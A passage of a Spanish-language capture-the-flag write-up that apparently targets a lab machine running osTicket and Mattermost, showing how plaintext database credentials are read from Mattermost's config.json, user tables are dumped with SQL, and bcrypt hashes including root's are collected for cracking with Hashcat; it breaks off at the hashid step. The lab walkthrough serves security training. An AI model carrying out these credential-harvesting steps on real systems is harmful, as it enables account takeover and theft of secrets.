 También encontramos cuentas de usuario:

```sql
MariaDB [osticket]> select * from ost_user_account;
+----+---------+--------+--------------------+------+----------+--------------------------------------------------------------+---------+-------+---------------------+
| id | user_id | status | timezone           | lang | username | passwd                                                       | backend | extra | registered          |
+----+---------+--------+--------------------+------+----------+--------------------------------------------------------------+---------+-------+---------------------+
|  1 |       7 |      0 | Africa/Addis_Ababa | NULL | NULL     | $2a$08$.V/t535Q6e0ybqkojE13xesj.emk5.ykkRW.gQdM/qhmWubcNulpe | NULL    | NULL  | 2021-04-27 14:07:26 |
|  2 |       9 |      0 | NULL               | NULL | NULL     | $2a$08$2RX0THiRcuWmPDBVU1.4ZeurpTF49bQXWy/5LkPBDwfaRB62H4lEa | NULL    | NULL  | 2021-04-27 14:53:18 |
+----+---------+--------+--------------------+------+----------+--------------------------------------------------------------+---------+-------+---------------------+
```

El archivo de configuración de MatterMost que se encuentra en `/opt/mattermost/config/config.json` contiene credenciales para la base de datos MySQL. El nombre de usuario y la contraseña están en texto sin formato y se pueden utilizar para iniciar sesión en la base de datos.

```bash
mysql -u mmuser -D mattermost -p
```

## Extracción de hash de root

Extraemos la contraseña de root de la base de datos de Mattermost:

```sql
MariaDB [mattermost]> select username, password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| foxtrot2                         | $2a$10$eCR7u4cUHAHJbQnZY1LK5OMkHSqu.8gC1DBhMtgr3HxZGz75TV6p6 |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| delivery                         | $2a$10$QELx6anUOb8scA.w.tiDoeZSJ1lWq0onfQcrSld0dwdMljPIz0C.K |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| foxtrot_user                     | $2a$10$OKV39TdX5.JAtw2Z7rb/.uIBAHssg5hih8nmvVGtB.CS2Md/z0mSS |
| foxtrot                          | $2a$10$s1wj2Xpo9hwYg5C403GJtuIkXjhquiVzlXPhrEBIndVCJXFGXi4Yq |
| username_foxtrot                 | $2a$10$1yCrOD55v/L3Ksukq.h3IupgThUth587xQRqf/HuXX8VIIXp67cwq |
+----------------------------------+--------------------------------------------------------------+
12 rows in set (0.000 sec)
```

Ahora tenemos el hash de root, el cual guardaremos en un archivo para descifrarlo con Hashcat.

Primero buscaremos el tipo de cifrado usando `hashid`:

